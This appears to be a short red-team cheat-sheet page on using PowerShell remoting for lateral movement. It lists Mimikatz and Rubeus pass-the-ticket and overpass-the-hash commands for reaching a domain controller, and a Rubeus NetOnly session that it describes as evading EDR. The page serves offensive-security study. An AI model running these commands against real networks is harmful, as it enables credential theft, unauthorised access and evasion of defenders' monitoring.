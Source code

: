 # Powershell Remoting

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**PowerShell remoting**</mark> is a feature that allows users to run **PowerShell** commands or scripts on remote computers. It's built on the **WinRM** service

### <mark style="color:blue;">Mimikatz</mark>

```powershell
kerberos::ptt "C:\Users\venator17\Desktop\Mimikatz\[0;7f830]-5-2-43f10000-venator17@krbtgt-amogus.kek.kirbi"
Enter-PSSession -ComputerName DC01
```

### <mark style="color:blue;">**Rubeus**</mark>

```powershell
Rubeus.exe asktgt /domain:amogus.kek /user:venator17 /rc4:1293uo1uwfoi1hw081 /ptt
Enter-PSSession -ComputerName DC01
```

### <mark style="color:blue;">Rubeus NetOnly Session</mark>

We can use <mark style="color:green;">**createnetonly**</mark> options to make NetOnly session, which don't have access for local machine, but could access services. Later we could use Rubeus <mark style="color:red;">**/ptt**</mark> command to insert **TGT. NetOnly** sessions are less detectable and could evade some **EDR's**.

```powershell
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
